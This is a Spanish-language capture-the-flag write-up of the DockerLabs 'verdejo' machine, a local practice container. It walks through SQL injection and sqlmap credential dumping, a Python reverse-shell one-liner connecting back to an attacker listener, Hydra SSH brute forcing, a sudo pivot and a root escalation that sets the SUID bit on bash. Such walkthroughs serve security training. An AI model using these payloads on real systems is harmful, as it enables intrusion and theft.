



**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `SQLi` `SQLMap` `Python` `RCE` `Hydra` `Sudoers` `SUID`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip verdejo.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh verdejo.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-18 15:15 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:9a:9f:b3:17:be:3d:2e:12:05:0f:a4:61:c3:b3:76 (ECDSA)
|_  256 69:8f:5c:4f:14:b0:4d:b6:b7:59:34:4d:b9:03:40:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: cs
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.99 seconds
```

Identificamos los puertos `22` y `80` abiertos.

Accedemos a través del puerto `80`.


Vemos que hay un panel de `login`.



Probamos una `inyección SQL` básica en los campos de usuario y contraseña.

```
Usuario: ' OR 1=1;-- -
Contraseña: ' OR 1=1;-- -
```


Vemos que ha funcionado, lo que nos confirma la vulnerabilidad.

## SQLMAP

Vamos a automatizar la explotación usando `sqlmap`. Para ello, primero interceptamos la `petición` de login con `BurpSuite`.



Guardamos la petición en un archivo `request.txt`. 

A continuación, enumeramos las bases de datos.

```Bash
sqlmap -r request.txt --batch --dbs
```

Info:
```
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


---------------------------------------<MORE_OUTPUT>-----------------------------------------------

Parameter: usuario (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: usuario=admin' OR NOT 9694=9694#&contrase%C3%B1a=admin

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: usuario=admin' AND GTID_SUBSET(CONCAT(0x7162627171,(SELECT (ELT(1782=1782,1))),0x7170767071),1782)-- DJSK&contrase%C3%B1a=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: usuario=admin' AND (SELECT 3676 FROM (SELECT(SLEEP(5)))TthO)-- SlVD&contrase%C3%B1a=admin
---
[15:25:18] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.6
[15:25:18] [INFO] fetching database names
[15:25:18] [INFO] retrieved: 'mysql'
[15:25:18] [INFO] retrieved: 'information_schema'
[15:25:18] [INFO] retrieved: 'performance_schema'
[15:25:18] [INFO] retrieved: 'sys'
[15:25:18] [INFO] retrieved: 'users'
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users

[15:25:18] [INFO] fetched data logged to text files under '/home/trihack/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 15:25:18 /2026-02-18/
```

Vemos que existe una base de datos llamada `users`. Procedemos a enumerar las tablas.

```Bash
sqlmap -r request.txt --batch -D users --tables
```

Info:
```
       ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:27:11 /2026-02-18/

[15:27:11] [INFO] parsing HTTP request from 'request.txt'
[15:27:11] [INFO] resuming back-end DBMS 'mysql' 
[15:27:11] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: usuario (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: usuario=admin' OR NOT 9694=9694#&contrase%C3%B1a=admin

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: usuario=admin' AND GTID_SUBSET(CONCAT(0x7162627171,(SELECT (ELT(1782=1782,1))),0x7170767071),1782)-- DJSK&contrase%C3%B1a=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: usuario=admin' AND (SELECT 3676 FROM (SELECT(SLEEP(5)))TthO)-- SlVD&contrase%C3%B1a=admin
---
[15:27:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.6
[15:27:11] [INFO] fetching tables for database: 'users'
[15:27:11] [INFO] retrieved: 'usuarios'
Database: users
[1 table]
+----------+
| usuarios |
+----------+

[15:27:11] [INFO] fetched data logged to text files under '/home/trihack/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 15:27:11 /2026-02-18/
```

Existe una sola tabla llamada `usuarios`. Dumpeamos el contenido de dicha tabla.

```Bash
sqlmap -r request.txt --batch -D users -T usuarios --dump
```

Info:
```
      ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


[*] starting @ 15:27:22 /2026-02-18/

sqlmap resumed the following injection point(s) from stored session:
---
Parameter: usuario (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: usuario=admin' OR NOT 9694=9694#&contrase%C3%B1a=admin

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: usuario=admin' AND GTID_SUBSET(CONCAT(0x7162627171,(SELECT (ELT(1782=1782,1))),0x7170767071),1782)-- DJSK&contrase%C3%B1a=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: usuario=admin' AND (SELECT 3676 FROM (SELECT(SLEEP(5)))TthO)-- SlVD&contrase%C3%B1a=admin
---
[15:27:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.6

Database: users
Table: usuarios
[3 entries]
+----+----------------------+----------+
| id | password             | username |
+----+----------------------+----------+
| 1  | 123321123321         | lucas    |
| 2  | 123456123456         | santiago |
| 3  | MiClaveEsInhackeable | joe      |
+----+----------------------+----------+

[15:27:22] [INFO] table 'users.usuarios' dumped to CSV file '/home/trihack/.local/share/sqlmap/output/172.17.0.2/dump/users/usuarios.csv'
[15:27:22] [INFO] fetched data logged to text files under '/home/trihack/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 15:27:22 /2026-02-18/
```

Encontramos nombres de usuario con credenciales. Probamos estas credenciales contra el servicio `SSH` pero no da resultado.

Decidimos probar las credenciales en el `panel login` que encontramos en el servicio web.

```
Usuario: joe
Contraseña: MiClaveEsInhackeable
```



## RCE

Vemos que desde este panel de administración podemos ejecutar comandos en `Python`. 

Vamos a intentar obtener una `reverse shell` aprovechando la ejecución remota de comandos.

Ponemos un `listener` en la máquina atacante.

```Bash
sudo nc -nlvp 4444
```

Ejecutamos el siguiente comando en el panel.

```Python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Info:
```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 44018
$ whoami
www-data
$
```

Recibimos la shell como usuario `www-data`.

## TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```


## ESCALADA USER JOE

Comenzamos enumerando los usuarios del sistema.

```Bash
cat /etc/passwd | grep 'sh'
```

```
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
joe:x:1001:1001:joe,,,:/home/joe:/bin/bash
luciano:x:1002:1002:luciano,,,:/home/luciano:/bin/bash
```

Identificamos dos usuarios, `joe` y `luciano`.

Seguimos enumerando la máquina. En el directorio `/tmp` encontramos un archivo oculto `.hidden_text.txt`.

```Bash
cat .hidden_text.txt
```

```
Martin, esta es mi lista de mis trucos favoritos de gta sa:


HESOYAM
UZUMYMW
JUMPJET
LXGIWYL
KJKSZPJ
YECGAA
SZCMAWO
ROCKETMAN
AIWPRTON
OLDSPEEDDEMON
CPKTNWT
WORSHIPME
NATURALTALENT
BUFFMEUP
AEZAKMI
BRINGITON
FULLCLIP
CVWKXAM
OUIQDMW
PROFESSIONALSKIT
PROFESSIONALTOOLS
NINJATOWN
STINGLIKEABEE
GHOSTTOWN
BLUESUEDESHOES
SPEEDITUP
SLOWITDOWN
SLOWITDOWNBRO
BAGUVIX
CJPHONEHOME
SPEEDFREAK
BUBBLECARS
KANGAROO
CRAZYTOWN
EVERYONEISRICH
EVERYONEISPOOR
CHITTYCHITTYBANGBANG
FLYINGTOSTUNT
FLYINGFISH
MONSTERMASH
BIFBUZZ
WHEELSONLYPLEASE
SLOWMO
SPECIALK
JUMPJET
FLYINGTOSTUNT
FLYINGFISH
ASNAEB
BTCDBCB
KVGYZQK
HELLOLADIES
BGLUAWML
OSRBLHH
LJSPQK
VKYPQCF
SZCMAWO
ROCKETMAN
AIWPRTON
OLDSPEEDDEMON
CPKTNWT
WORSHIPME
NATURALTALENT
BUFFMEUP
BRINGITON
FULLCLIP
CVWKXAM
OUIQDMW
PROFESSIONALSKIT
PROFESSIONALTOOLS
NINJATOWN
STINGLIKEABEE
GHOSTTOWN
SPEEDITUP
SLOWITDOWN
SLOWITDOWNBRO
BAGUVIX
SPEEDFREAK
BUBBLECARS
```

Parece que se nos proporciona un diccionario de contraseñas para probar. 

Copiamos la lista de contraseñas en un archivo `.txt` en nuestra máquina atacante con nombre `diccionario.txt`.

Pasamos las contraseñas a minúscula con el siguiente comando.

```Bash
awk '{print tolower($0)}' diccionario.txt > diccionario_minuscula.txt
```

Verificamos el contenido.

```Bash
cat diccionario_minuscula.txt
```

```
hesoyam
uzumymw
jumpjet
lxgiwyl
kjkszpj
yecgaa
szcmawo
rocketman
aiwprton
oldspeeddemon
cpktnwt
worshipme
naturaltalent
buffmeup
aezakmi
bringiton
fullclip
---<CONTINUA>---
```

Ahora vamos a probar suerte con este diccionario y el usuario `joe` que hemos encontrado, atacando el servicio `SSH`.

```Bash
hydra -l joe -P diccionario_minuscula.txt ssh://172.17.0.2 -t 64
```

Info:
```
hydra -l joe -P diccionario_minuscula.txt ssh://172.17.0.2 -t 64         
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-02-18 15:49:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 78 login tries (l:1/p:78), ~2 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: joe   password: chittychittybangbang
```

Encontramos credenciales para el usuario `joe` : `chittychittybangbang`.

Accedemos por `SSH`.

```Bash
ssh joe@172.17.0.2
```

## MOVIMIENTO LATERAL

Una vez dentro, comprobamos permisos `sudo`.

```Bash
sudo -l
```

```
Matching Defaults entries for joe on 90ec72c27e7c:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joe may run the following commands on 90ec72c27e7c:
    (luciano) NOPASSWD: /bin/posh
```

Podemos ejecutar el binario `/bin/posh` como el usuario `luciano`. Lo aprovechamos para pivotar.

```Bash
sudo -u luciano /bin/posh
```

Info:
```
$ whoami
luciano
$
```

## ESCALADA DE PRIVILEGIOS

Una vez como luciano, volvemos a comprobar los permisos `sudo`.

```Bash
sudo -l
```
```
Matching Defaults entries for luciano on 90ec72c27e7c:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User luciano may run the following commands on 90ec72c27e7c:
    (root) NOPASSWD: /bin/bash /home/luciano/script.sh
```

Vemos que luciano puede ejecutar el script de bash `script.sh` con privilegios de `root`.

Navegamos a `/home/luciano` y vemos que tenemos permisos de escritura sobre el script. 

Modificamos su contenido para asignar permisos `SUID` a la bash.

```Bash
echo 'chmod u+s /bin/bash' > script.sh
```

Ejecutamos el script con privilegios de `root` aprovechando el permiso de `sudo`.

```Bash
sudo -u root /bin/bash /home/luciano/script.sh
```

Verificamos que la bash ahora tiene el `bit SUID` activo.

```Bash
ls -la /bin/bash
```

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Finalmente, obtenemos una `shell` como root.

```Bash
bash -p
```
```
bash-5.2# whoami
root
bash-5.2#
```

Ya somos root!